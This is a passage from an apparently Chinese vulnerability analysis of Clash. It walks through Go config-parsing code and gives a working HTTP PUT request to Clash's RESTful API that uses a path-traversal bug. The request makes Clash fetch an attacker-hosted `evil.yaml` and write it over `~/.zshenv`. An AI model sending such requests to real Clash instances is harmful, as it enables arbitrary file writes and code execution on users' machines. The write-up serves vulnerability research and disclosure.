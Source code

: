然后再进入到`ParseRawConfig`函数，其中发现`parseProxies`函数。

```go
func ParseRawConfig(rawCfg *RawConfig) (*Config, error) {
	config := &Config{}

	config.Experimental = &rawCfg.Experimental
	config.Profile = &rawCfg.Profile

	general, err := parseGeneral(rawCfg)
	if err != nil {
		return nil, err
	}
	config.General = general

	proxies, providers, err := parseProxies(rawCfg)
	if err != nil {
		return nil, err
	}
	config.Proxies = proxies
	config.Providers = providers

  // ...
  // ...

	return config, nil
}
```

在代码审计分析章节，就是从`parseProxies`函数着手分析，进而分析了 parse 和 initial providers 的完整流程，最后得出结论，存在路径穿越漏洞，最终导致任意位置任意文件写入。所以此处也应同样如此，不过不同的是，RESTful API 方式无需受害者去手动导入一个恶意的主配置，只要能对 Clash 触发一个 HTTP 请求即可。

HTTP 报文如下，同时本地提供一个 9999 端口的 Web 服务，对外提供 evil.yaml 文件。

```text
PUT /configs?force=true HTTP/1.1
Host: 127.0.0.1:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 326

{"payload":"mixed-port: 7890\nallow-lan: false\nmode: rule\nlog-level: warning\nproxy-providers:\n  provider1:\n    type: http\n    url: 'http://127.0.0.1:9999/evil.yaml'\n    interval: 3600\n    path: ../../.zshenv\n    healthcheck:\n      enable: true\n      interval: 600\n      url: http://www.gstatic.com/generate_204"}
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/9587821f-8bd7-4c43-a7c2-e77aa944c0cc/burp-put-configs.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050200Z&X-Amz-Expires=3600&X-Amz-Signature=41ecc8232bc826f0a047a29f614fa056522bf203e27388a7c74991776f98f59f&X-Amz-SignedHeaders=host&x-id=GetObject)
